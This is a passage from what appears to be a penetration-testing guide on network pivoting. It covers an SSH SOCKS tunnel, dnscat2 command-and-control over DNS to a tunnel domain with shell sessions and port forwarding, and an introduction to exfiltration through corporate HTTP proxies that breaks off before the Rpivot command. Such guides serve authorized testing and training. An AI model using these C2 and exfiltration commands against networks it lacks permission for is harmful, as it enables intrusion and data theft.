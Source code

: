 `ssh <user>@1.1.1.2 -C -c blowfish-cbc,arcfour -o CompressionLevel=9 -D 1080`

#### Dnscat2

[Dnscat2](https://github.com/iagox86/dnscat2) establishes C&C channel over recursive DNS queries. This tool doesn't require root/administrator access (works both on windows and linux). It also supports port forwarding. Server side:

```
ruby ./dnscat2.rb tunneldomain.com
```

Client side:

`./dnscat2 tunneldomain.com`

After you receive a connection of server side, you can view the active sessions with `windows` command:

```
dnscat2> windows
0 :: main [active]
  dns1 :: DNS Driver running on 0.0.0.0:53 domains = tunneldomain.com [*]
  1 :: command session (debian)
  2 :: sh (debian) [*]
```

To initiate port forwarding select a command session with `session -i <num>`:

```
dnscat2> session -i 1
New window created: 1
New window created: 1
history_size (session) => 1000
This is a command session!

That means you can enter a dnscat2 command such as
'ping'! For a full list of clients, try 'help'.

command session (debian) 1>
```

Use `listen [lhost:]lport rhost:rport` command to forward a port:

`command session (debian) 1> listen 127.0.0.1:8080 10.0.0.20:80`

This will bind port 8080 on the attacker's machine and forward all connections to 10.0.0.20:80.


### Corporate HTTP proxy as a way out

HTTP proxies organization place for their employees to access external web-application present a good exfiltration opportunity given  you got the right credentials ;)

#### Rpivot

I already mentioned this tool in the NAT traversal section. It also supports connecting to the outside world via NTLM HTTP proxies. Server side command remains intact, use client-side command as follows:
